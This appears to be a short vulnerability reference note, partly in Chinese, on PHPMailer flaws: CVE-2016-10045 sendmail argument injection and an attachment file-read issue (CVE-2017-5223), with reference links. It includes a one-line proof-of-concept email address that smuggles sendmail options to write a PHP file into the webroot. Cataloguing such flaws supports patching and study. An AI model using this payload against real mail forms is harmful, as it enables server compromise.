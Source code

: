 ## 5.2.17

### CVE-2016-10045 - from 请求头 sendmail 注入 / escapeshellarg 导致转义失效

参考链接

* [PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)

Poc

```
a'( -OQueueDirectory=/tmp -X/var/www/html/x.php )@a.com
```

## 5.2.21

### attachment 任意文件读取特性 

影响版本

* <= 5.2.21

参考链接

* [PHPMailer任意文件读取漏洞分析（CVE-2017-5223）](http://www.freebuf.com/vuls/124820.html)

